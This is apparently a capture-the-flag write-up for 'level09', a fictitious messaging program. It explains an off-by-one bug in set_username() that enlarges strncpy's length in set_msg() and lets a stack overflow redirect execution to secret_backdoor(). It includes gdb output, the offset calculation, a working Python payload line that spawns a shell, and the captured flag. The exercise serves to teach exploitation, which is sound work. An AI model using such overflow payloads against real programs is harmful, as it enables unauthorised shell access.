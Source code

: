 # One byte can cause your end

## Program summary
In this level we are provided with a program which takes as input a username **`set_username()`** and a message **`set_msg()`**, which will be transferred to a certain "@Unix-Dude". It's a fictitious messaging system.

## Vulnerability
The vulnerability at this level resides in **`set_username()`** and is exploitable in **`set_msg()`**.  Let me explain, these two functions will receive the same start of segment of a buffer defined in **`handle_msg()`**, to write the information related to their function. Except that in **`set_msg()`** the length limit of **`strncpy()`** is accessible via **`set_username()`** since it copies one byte too many.

Therefore if the length is set correctly, we can attack with a buffer overflow in the **`handle_msg()`** stack frame.

## Attack design

Two attacks are possible in fact, the first would simply be to use gdb to hijack the instruction register on **`secret_backdoor()`**.

The second is the buffer overflow attack. To do this we must find the sufficient length to reach the location of the saved RIP. Let's look at the buffer address and the RIP location to calculate the offset.

```
Breakpoint 1, 0x000055555555492b in handle_msg ()
(gdb) i f
Stack level 0, frame at 0x7fffffffe4c0:
 rip = 0x55555555492b in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe4d0
 Arglist at 0x7fffffffe4b0, args: 
 Locals at 0x7fffffffe4b0, Previous frame's sp is 0x7fffffffe4c0
 Saved registers:
  rbp at 0x7fffffffe4b0, rip at 0x7fffffffe4b8
(gdb) p $rbp-0xc0
$1 = (void *) 0x7fffffffe3f0
```
***RIP Location*** : 0x7fffffffe4b8
***Buffer start*** : 0x7fffffffe3f0
0x7fffffffe4b8 - 0x7fffffffe3f0 = 0xC8 = OFFSET is **200**

Let's put the *40th* excess copy byte at its maximum simply with **`\xff = 255`** in **`set_username()`**. Now we can copy 255 bytes with **`strncpy()`** since **`buffer start + 0xb4`** points exactly to **`\xff`**, however we will only use 208 bytes (*OFFSET + 64 bits addr*).

```py
python -c 'print "*"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"' > /tmp/boom
```

```
cat /tmp/boom - | ./level09
...
whoami
end
cat /home/users/end/.pass    
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

> Flag : `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`
